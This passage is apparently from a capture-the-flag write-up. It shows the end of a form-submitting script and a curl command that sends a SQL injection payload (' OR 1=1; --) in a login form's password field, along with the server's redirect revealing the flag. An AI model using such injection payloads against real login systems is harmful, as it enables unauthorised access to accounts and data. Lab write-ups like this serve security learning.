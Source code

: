 ```html
    document.body.appendChild(form);
    form.submit();
    });
})();
</script>
```

We can pass our injection to the server using a tool like curl to ensure our username/password does not get encoded. I found that it was easier to inject on the password instead of the username. Using the following command will print the flag url encoded:

```shell
$ curl -X POST -d "username=l33t" -d "password=' OR 1=1;  --  " https://secure.mc.ax/login
Found. Redirecting to /?message=flag%7B50m37h1n6_50m37h1n6_cl13n7_n07_600d%7D  
```

We can then use a tool like [CyberChef](https://gchq.github.io/CyberChef/) to easily decode the flag.

